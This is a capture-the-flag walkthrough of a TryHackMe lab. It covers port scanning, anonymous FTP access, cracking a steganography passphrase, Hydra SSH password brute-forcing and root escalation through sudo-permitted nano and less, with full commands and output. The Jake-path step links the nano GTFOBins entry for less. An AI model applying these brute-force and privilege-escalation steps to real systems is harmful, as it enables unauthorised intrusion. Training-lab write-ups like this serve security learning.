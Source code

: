 # Brooklyn Nine Nine
###### tags: `THM` `OSCP`

This is an easy room with 2 equally fun paths to exploit. Steganography or Brute-forcing, Holt or Peralta. Then use GTFO bins to get the root.

## 1. Scanning & Enumeration
### 1.1. Port Scanning
```
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.8.184
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Anonymous login shows us an interesting file: `note_to_jake.txt`.

Also running a full port scan, we get no additional information.
```
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### 1.2 Web Exploration
![Brooklyn Nine Nine Homepage image](https://i.imgur.com/6XcDCc8.jpg)

In the sourcecode, we see the following line: `<!-- Have you ever heard of steganography? -->`.

### 1.3 FTP 
So one thing we found was Anonymous login in FTP. Let's get the interesting file.
```
┌──(kali㉿kali)-[/tmp]
└─$ ftp 10.10.150.90
Connected to 10.10.150.90.
220 (vsFTPd 3.0.3)
Name (10.10.150.90:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.00 secs (391.2826 kB/s)
ftp> 
221 Goodbye.
```

Given that we have no other special pages, or any other ports - we have one option to bruteforce SSH.
```
┌──(kali㉿kali)-[/tmp]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
This is one pathway we can take.

### 1.4 Steganography
Let's get the image: `http://10.10.150.90/brooklyn99.jpg`.

Using steghide, to get the hidden file in the image - 
```
┌──(kali㉿kali)-[/tmp]
└─$ steghide --extract --stegofile brooklyn99.jpg 
Enter passphrase: 
steghide: can not uncompress data. compressed data is corrupted.
```

Okay. Let's get [StegSeek](https://github.com/RickdeJager/stegseek). It goes through the entire rockyou.txt in 2 seconds :)

Download the `.deb` file if you are on a debian based system, and install as shown below.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo dpkg --install stegseek_0.6-1.deb 
Selecting previously unselected package stegseek.
(Reading database ... 305959 files and directories currently installed.)
Preparing to unpack stegseek_0.6-1.deb ...
Unpacking stegseek (0.6-1) ...
Setting up stegseek (0.6-1) ...
```

Time to get in!

## 2. Foothold (Holt Path)
```
┌──(kali㉿kali)-[/tmp]
└─$ stegseek brooklyn99.jpg
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "*****"
[i] Original filename: "note.txt".
[i] Extracting to "brooklyn99.jpg.out".
```

Voila! We get the passphrase, and the output file.

```
┌──(kali㉿kali)-[/tmp]
└─$ cat brooklyn99.jpg.out 
Holts Password:
{password}

Enjoy!!
```

Logging in,

```
┌──(kali㉿kali)-[/tmp]
└─$ ssh holt@10.10.150.90  
The authenticity of host '10.10.150.90 (10.10.150.90)' can't be established.
ECDSA key fingerprint is SHA256:Ofp49Dp4VBPb3v/vGM9jYfTRiwpg2v28x1uGhvoJ7K4.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.150.90' (ECDSA) to the list of known hosts.
holt@10.10.150.90's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 
```

We are in!

## 3. PrivEsc (Holt Path)
Time to get the root. One very very good starting point is checking sudo permissions.
```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```


Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo). Too easy!

## 4. Foothold (Jake Path)
Let's also explore the other path hinted in the room. As I mentioned above, we can bruteforce SSH using Hydra.
```
┌──(kali㉿kali)-[/tmp]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.150.90 -t 4   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-30 23:30:06
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.150.90:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.150.90   login: jake   password: {password}
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-30 23:32:45
```

Logging in,

```
┌──(kali㉿kali)-[~]
└─$ ssh jake@10.10.150.90
jake@10.10.150.90's password: 
Last login: Mon May 31 03:59:08 2021 from 10.17.8.184
jake@brookly_nine_nine:~$ ls
```

We do not have any flag here. What we need is root permissions, so that we have it all.

## 5. PrivEsc (Jake Path)
```
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ /usr/bin/less /root/root.txt
jake@brookly_nine_nine:~$ 
```

Use [GTFO bins](https://gtfobins.github.io/gtfobins/nano/#sudo).

System FULLY Compromised!
